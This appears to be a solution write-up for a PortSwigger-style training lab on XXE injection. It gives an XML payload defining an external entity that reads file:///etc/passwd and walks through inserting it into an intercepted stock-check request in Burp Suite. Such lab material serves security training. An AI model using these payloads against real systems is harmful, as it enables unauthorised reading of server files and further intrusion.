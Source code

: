## Lab Description: Exploiting XXE using external entities to retrieve files



## Solution:

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the /etc/passwd file by submitting the following XXE payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/10b8d1a3-cebf-43c7-9ec0-a01ed0a3f18f)

Insert the following external entity definition in between the XML declaration and the stockCheck element:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4301fcb7-3f5c-418c-b964-d12794c46604)

Replace &xxe;

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/992f8d24-567b-4369-922b-03c6629d5f19)

The response should contain "Invalid product ID:" followed by the contents of the /etc/passwd file.

Lab Solved

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b716a0d8-f795-4584-a29d-09ec614aa76e)


